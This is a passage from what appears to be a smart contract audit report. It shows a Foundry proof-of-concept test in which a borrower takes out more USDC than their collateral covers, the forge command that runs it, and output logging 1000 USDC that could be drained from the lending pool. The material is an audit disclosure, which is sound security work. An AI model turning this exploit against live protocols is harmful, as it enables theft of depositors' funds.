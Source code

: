 ```js
            _approveUsdc(alice, address(spokeUsdc), largeUsdcDeposit);
            _deposit(alice, aliceAccountId, aliceLoanIds[0], largeUsdcDeposit, spokeUsdc);
            // @audit-issue : alice can borrow way more then his collateral (basically drain all liquidity from the pool)
            _borrowVariable(alice, aliceAccountId, aliceLoanIds[0], hubPoolUsdc.getPoolId(), 2000e6);
            uint256 aliceBalanceAfter = IERC20(USDC_TOKEN).balanceOf(alice);
            uint256 attackProfit = aliceBalanceAfter - aliceBalanceBefore;
            console.log("ALICE COULD DRAIN :", attackProfit / 1e6, "USDC");
        }
    }
```

*   this is the result if we execute the test with :

    > forge test --mt test\_poc\_1 -vvv

```sh
Ran 1 test for test/pocs/manipulateStableRatePoC.sol:Pocss
[PASS] test_poc() (gas: 1863057)
Logs:
  ALICE COULD DRAIN : 1000 USDC

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.04s (7.54ms CPU time)
```
